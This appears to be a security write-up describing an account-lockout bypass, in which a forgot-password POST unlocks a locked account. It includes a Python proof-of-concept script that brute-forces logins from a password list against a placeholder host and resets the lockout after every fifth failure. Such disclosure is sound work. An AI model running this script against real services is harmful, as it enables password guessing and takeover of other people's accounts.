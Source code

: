 
**I found that after five unsuccessful login attempts, the account would become locked.**

However, I discovered that by sending a post request to the forgot password page with the email address associated with the locked account, ~={yellow}it was possible to unlock the account without any additional verification.=~


This vulnerability could allow an attacker to repeatedly **try different passwords in an automated fashion until the account is locked, and then use the forgot password feature to unlock the account** and continue the password guessing attack.


To demonstrate the impact of this vulnerability, I created a proof-of-concept script using the Python requests library.

The script reads a list of passwords from a text file, password.txt and repeatedly sends login requests to the target application, ~={blue}including the forgot password request after every 5th failed login attempt.=~ The code is provided below for reference:

```python
import requests  
import json  
  
# read the password from the password.txt file  
with open("password.txt", "r") as f:  
    passwords = f.read().splitlines()  
  
# set the login endpoint  
login_url = "https://test.com/api/v2/accounts/Login"  
  
# set the headers for the JSON POST request  
headers = {'Content-Type': 'application/json'}  
  
# set the login parameters  
login_params = {'username': 'test@test.com'}  
  
# send the login requests  
for i, password in enumerate(passwords):  
    login_params['password'] = password  
    response = requests.post(login_url, headers=headers, json=login_params)  
  
    if i % 5 == 4:  
        # send request to the forgot password endpoint  
        forgot_url = "https://test.com/api/accounts/forgotPassword"  
        forgot_params = {'email': 'test@test.com'}  
        requests.post(forgot_url, headers=headers, json=forgot_params)  
  
    if response.status_code == 200:  
        print("Login success! Password: " + password.strip())  
        break
```

![](https://miro.medium.com/v2/resize:fit:567/1*GXYtS6BGqQg51ZKvG-W2kw.png)
